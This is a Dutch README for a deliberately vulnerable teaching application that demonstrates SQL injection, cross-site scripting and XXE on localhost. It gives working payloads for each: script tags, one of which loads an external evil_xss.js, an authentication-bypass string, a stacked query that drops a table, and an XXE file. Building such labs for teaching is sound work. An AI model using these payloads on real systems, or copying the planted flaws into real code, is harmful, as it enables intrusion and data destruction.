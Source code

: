 # OwaspVulnerabilities
<br>
In deze applicatie zijn drie vulnerabilities ingebouwd.<br>
<br>
Injection (sql en code)<br>
Cross site scripting XSS<br>
XML External Entity (XXE) Processing<br>
<br>
Injection (sql en code)<br>
Na het starten van de applicatie is er een H2 database met url: http://localhost:9080/h2-console/<br>
User is sa, password is leeg.<br>
<br>
Tabellen User en Article<br>
User wordt gebruikt om 'in te loggen' - SQL injectie<br>
Article wordt gebruikt om code te injecteren.<br>
<br>
Testen gaat via Swagger (http://localhost:9080/swagger-ui.html#/) en browser. Er is geen frontend.<br>
<br>
Code injectie <br>
<br>
Voeg middels 'addArticle' van de ArticleController een article toe met in het veld description: <br>
<code><script>alert('Hello')</script></code><br>
(id mag leeg blijven)<br>
In de response is het aangemaakte article te zien met het id.<br>
Gebruik dit id in 'getArticleById' om het article op te halen.<br>
Er gebeurt verder niets maar de code is te zien in de response.<br>
Kopieer de 'Request url' onder het Curl stukje (bijv. http://localhost:9080/api/article/getArticleById?id=2).<br>
Gebruik de url in de browser.<br>
Er is nu een alert melding te zien.<br>
Voek een nieuwe article toe met in het veld description:<br>
<code><script src='http://home.kpn.nl/vuwu57lx/evil_xss.js'></script></code><br>
Gebruik van de url van dit nieuwe article (bijv. http://localhost:9080/api/article/getArticleById?id=3)<br>
geeft nu een melding in de browser m.b.t. encrypted files<br>

---------------------------------------------------------------------------------------------------------<br>
SQL injectie<br>
<br>
De methode authenticate van de AuthenticationController wordt gebruikt om in te loggen.<br>
Bij verkeerde credentials wordt status 401 teruggegeven en een leeg user object.<br>
Bij de juiste credentials wordt een gevuld user object teruggegeven<br>
user nikki@info.org<br>
pw   S&cr#t<br>
In de logging is de gebruikte sql query te zien:<br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = 'S&cr#t'<br>
Het is nu de kunst om iets in het password in te vullen zodat een geldige query ontstaat die resultaat oplevert.<br>
Een voorbeeld is: ' or '1' = '1<br>
De query wordt dan:<br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'<br>
Dit: ' or '1' = '1'   ; drop table article; --<br>
geeft query <br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'   ; drop table article; --'<br>
en heeft tot gevolg dat tabel article is verwijderd.<br>
<br>
---------------------------------------------------------------------------------------------------------<br>
XML External Entity (XXE) Processing<br>

In een XML bestand is het mogelijk om een DOCTYPE element op te nemen.<br>
Hierin kunnen uitvoerbare instructies staan<br>
XML parsers voeren deze instructies uit, afhankelijk van bepaalde settings.<br>
<br>
De RegisterXxeAttackController logt een dergelijke 'aanval'.<br>
Upload in Swagger via de XmlUploadController bestand ...src/main/resources/aanvraag.xml<br>
Het gevulde object wordt getoond in de response.<br>
Doe hetzelfde met ...src/main/resources/xxeaanvraag.xml<br>
In de logging is nu te zien:<br>
RegisterXxeAttackController      : Http request in !DOCTYPE element in xml is executed!<br>
<br>
<br>
N.B.<br>
In de pom staan dependencies voor jaxb omdat deze geen deel meer uitmaken van Java versies > 8<br>
Het kan zijn dat hier, afhankelijk van de gebruikte Java versie, problemen mee ontstaan.<br>




